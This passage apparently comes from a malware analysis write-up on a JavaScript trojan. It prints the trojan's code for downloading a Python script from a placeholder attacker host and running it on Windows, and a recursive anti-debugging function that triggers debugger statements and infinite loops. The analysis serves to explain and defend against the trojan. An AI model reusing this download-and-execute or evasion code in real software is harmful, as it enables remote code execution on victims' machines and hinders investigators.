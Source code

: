 ### Executing Python Scripts

On Windows systems, the trojan downloads and executes a Python script:

```javascript
if (platform.startsWith('win')) {
  const pythonPath = path.join(homeDir, ".pyp", "python.exe");
  const sysinfoPath = path.join(homeDir, ".sysinfo");
  const command = `"${pythonPath}" "${sysinfoPath}"`;

  if (fs.existsSync(pythonPath)) {
    request.get("http://hacker_ip_goes_here:port/client/...", (error, response, body) => {
      if (!error) {
        fs.writeFileSync(sysinfoPath, body);
        exec(command, (err, stdout, stderr) => {
          // Execution complete
        });
      }
    });
  } else {
    // Attempt to download Python or handle accordingly
  }
} else {
  // Similar logic for other platforms using python3
}
```

### Anti-Debugging Techniques

The trojan includes code to hinder debugging and analysis:

```javascript
function antiDebugging(variable) {
  if (typeof variable === "string") {
    return function () {}.constructor("while (true) {}").apply("counter");
  } else if ((("" + variable / variable).length !== 1) || (variable % 20 === 0)) {
    (function () {
      return true;
    }).constructor("debugger").call("action");
  } else {
    (function () {
      return false;
    }).constructor("debugger").apply("stateObject");
  }
  antiDebugging(++variable);
}
```

This code attempts to detect if it's being debugged and can halt execution or make analysis more difficult.

The anti-debugging techniques serve a dual purpose: complicating automated analysis and discouraging human investigators through repeated failures and confusion. This type of code often relies on psychological tactics, making analysts feel that further examination is futile.
